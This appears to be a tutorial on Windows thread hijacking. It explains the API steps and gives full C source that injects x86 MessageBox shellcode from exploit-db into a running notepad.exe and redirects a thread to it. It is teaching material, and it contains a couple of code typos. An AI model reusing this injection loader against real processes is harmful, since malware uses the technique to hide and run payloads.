

# Thread Hijacking
Thread hijacking is a means of executing your injected code within a process.
The general premise is as follows:
•
OpenThread - grab a handle to a thread in the target process
•
SuspendThread - pause the execution of that thread
•
GetThreadContext - retrieve the current register states for that thread and store in a CONTEXT struct
• Modify the registers in the CONTEXT struct so that on resume they will execute your injected code
•
SetThreadContext - write the register modifications into the target thread
•
ResumeThread - resume execution of the thread, and your injected could should execute
## Executing What?
### Executing Shellcode
The IP register - Instruction Pointer - points to the next instruction to be executed.
If you're executing shellcode, you need to modify the IP register to point to the address of your injected shellcode.
#ifdef _WIN64
target_ctx.Rip = (DWORD_PTR)shellcode_addr;
#else
target_ctx.Eip = (DWORD_PTR)shellcode_addr;
#endif
### Executing an Injected PE
If you're executing an injected PE file, your need to copy the PE's entry point into an architecture-specific register.
• for 32bit, the entry point is copied into EAX
• for 64bit, it goes in RCX
#ifdef _WIN64
target_ctx.Rcx = (DWORD_PTR)base + pe_header->OptionalHeader.AddressOfEntryPoint;
#else
target_ctx.Eax = (DWORD_PTR)base + pe_header >OptionalHeader.AddressOfEntryPoint;
#endif
Examples
• My Process Hollowing Demo
## Create suspended process - CreateProcess with CREATE_SUSPENDED
Creating a new process is arguably a simpler method than suspending an existing one because creating a process will return you a handle to a thread.
This means you don't have go loop through all the threads on the system to find one owned by your target process (not complicated, just another step).
Examples
• My Process Hollowing Demo
## Target existing process - SuspendThread
When targetting an existing process, you'll need to find a thread owned by your target process.
To do this, you'll need the PID (process ID) of your target process.
With that, you can loop through all the threads on the system and find a thread where its
OwnerProcessID is that of your target process.
### Demo Code with x86 Shellcode
In this demo I'm injecting some x86 "Hello, world! MessageBox shellcode into a 32bit notepad.exe process.
It's running on Windows 10 x64 2004 and compiled as a 32bit binary.
(I'm doing 32bit because I couldn't find reliable 64bit code).
I've started a 32bit Notepad process from
C:\Windows\SysWOW64\notepad.exeIf you're lost, start reading from the
FindProcessAndInject function (which calls everything else).
#include <stdio.h>
#include <Windows.h>
#include <TlHelp32.h>
// x86 MessageBox shellcode
// https://www.exploit-db.com/exploits/37758
char shellcode[] = "\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b"
"\x49\x1c\x8b\x59\x08\x8b\x41\x20\x8b\x09"
"\x80\x78\x0c\x33\x75\xf2\x8b\xeb\x03\x6d"
"\x3c\x8b\x6d\x78\x03\xeb\x8b\x45\x20\x03"
"\xc3\x33\xd2\x8b\x34\x90\x03\xf3\x42\x81"
"\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04"
"\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03"
"\xf3\x66\x8b\x14\x56\x8b\x75\x1c\x03\xf3"
"\x8b\x74\x96\xfc\x03\xf3\x33\xff\x57\x68"
"\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68"
"\x4c\x6f\x61\x64\x54\x53\xff\xd6\x33\xc9"
"\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65"
"\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01"
"\xfe\x4c\x24\x03\x68\x61\x67\x65\x42\x68"
"\x4d\x65\x73\x73\x54\x50\xff\xd6\x57\x68"
"\x72\x6c\x64\x21\x68\x6f\x20\x57\x6f\x68"
"\x48\x65\x6c\x6c\x8b\xcc\x57\x57\x51\x57"
"\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c"
"\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78"
"\x69\x74\x54\x53\xff\xd6\x57\xff\xd0";
/*
Returns address of shellcode in target
*/
LPVOID WriteShellcodeIntoTarget(DWORD process_id)
{
LPVOID shellcode_addr = NULL;
BOOL b_ret = TRUE;
HANDLE h_target_process = NULL;
h_target_process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_id);
if (h_target_process == NULL)
{
printf("\t failed to open target process: %d \n", GetLastError());
shellcode_addr = NULL;
goto cleanup;
}
else
printf("\t opened target process \n");
shellcode_addr = VirtualAllocEx(h_target_process, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (shellcode_addr == NULL)
{
printf("\t failed to allocate memory in target: %d \n", GetLastError());
shellcode_addr = NULL;
goto cleanup;
}
else
printf("\t allocated memory in target at: 0x%p \n", shellcode_addr);
b_ret = WriteProcessMemory(h_target_process, shellcode_addr, shellcode, sizeof(shellcode), NULL);
if (b_ret == FALSE)
{
printf("\t failed to write shellcode into target: %d \n", GetLastError());
shellcode_addr = NULL;
goto cleanup;
}
else
printf("\t wrote shellcode into target at: 0x%p \n", shellcode_addr);
cleanup:
if (h_target_process) CloseHandle(h_target_process);
return shellcode_addr;
}
BOOL HijackThread(DWORD thread_id, LPVOID shellcode_addr)
{
BOOL success = TRUE;
int i_ret = 0;
BOOL b_ret = TRUE;
HANDLE h_target_thread = NULL;
CONTEXT target_ctx = { 0 };
target_ctx.ContextFlags = CONTEXT_FULL;
h_target_thread = OpenThread(THREAD_ALL_ACCESS, FALSE, thread_id);
if (h_target_thread == NULL)
{
printf("\t failed to open thread: %d \n", GetLastError());
success = FALSE;
goto cleanup;
}
printf("\t opened thread \n");
i_ret = SuspendThread(h_target_thread);
if (i_ret == (DWORD)-1)
{
printf("\t failed to suspend thread: %d \n", GetLastError());
success = FALSE;
goto cleanup;
}
printf("\t suspended thread \n");
b_ret = GetThreadContext(h_target_thread, &target_ctx);
if (b_ret == FALSE)
{
printf("\t failed to get thread context: %d \n", GetLastError());
success = FALSE;
goto cleanup;
}
printf("\t retrieved thread context \n");
// Write address of injected shellcode into IP - Instruction Pointer - register.
#ifdef _WIN64
target_ctx.Rip = (DWORD_PTR)shellcode_addr;
#else
target_ctx.Eip = (DWORD_PTR)shellcode_addr;
#endif
b_ret = SetThreadContext(h_target_thread, &target_ctx);
if (b_ret == FALSE)
{
printf("\t failed to set thread context: %d \n", GetLastError());
success = FALSE;
goto cleanup;
}
printf("\t set thread context - EAX now points to shellcode. EAX: 0x%p \n", shellcode_addr);
i_ret = ResumeThread(h_target_thread);
if (i_ret == (DWORD)-1)
{
printf("\t failed to resume thread: %d \n", GetLastError());
success = FALSE;
goto cleanup;
}
printf("\t resumed thread \n");
cleanup:
if (h_target_thread) CloseHandle(h_target_thread);
return success;
}
/*
Finds the target process, writes shellcode into the target, finds a thread in the target,
and hijacks a thread to execute the injected shellcode.
*/
void FindProcessAndInject(wchar_t* target_process)
{
BOOL b_ret = TRUE;
DWORD i_ret = 0;
//wchar_t target_process[] = L"notepad.exe";
BOOL process_found = FALSE;
HANDLE h_snapshot = NULL;
PROCESSENTRY32 process = { 0 };
THREADENTRY32 thread = { 0 };
process.dwSize = sizeof(PROCESSENTRY32);
thread.dwSize = sizeof(THREADENTRY32);
LPVOID target_shellcode = NULL;
// STEP 1. Find target process
// -----------------------------------------------------
// take snapshot of processes
h_snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
Process32First(h_snapshot, &process);
// loop until we find our target process
do
{
if (wcscmp(process.szExeFile, target_process) == 0)
{
process_found = TRUE;
break;
}
} while (Process32Next(h_snapshot, &process));
// if process found, write shellcode into target process
if (process_found == FALSE)
{
printf("[-] failed to find target process: %ws \n", target_process);
return;
}
// STEP 2. Write shellcode into target process
// -----------------------------------------------------
printf("[+] found target process: %ws \n", target_process);
target_shellcode = WriteShellcodeIntoTarget(process.th32ProcessID);
if (target_shellcode == NULL)
return;
// STEP 3. Find thread in target process & hijack
// -----------------------------------------------------
// loop through threads, grab first thread ID that belongs to target process, and hijack it
printf("[+] looping through threads... \n");
Thread32First(h_snapshot, &thread);
do
{
if (thread.th32OwnerProcessID == process.th32ProcessID)
{
printf("[+] found thread in target: 0x%d \n", thread.th32ThreadID);
b_ret = HijackThread(thread.th32ThreadID, target_shellcode);
if (b_ret == TRUE)
{
break;
}
else
{
printf("\t trying next thread \n");
continue;
}
}
} while (Thread32Next(h_snapshot, &thread));
return;
}
int main(void)
{
FindProcessAndInject(L"notepad.exe");
return 0;
}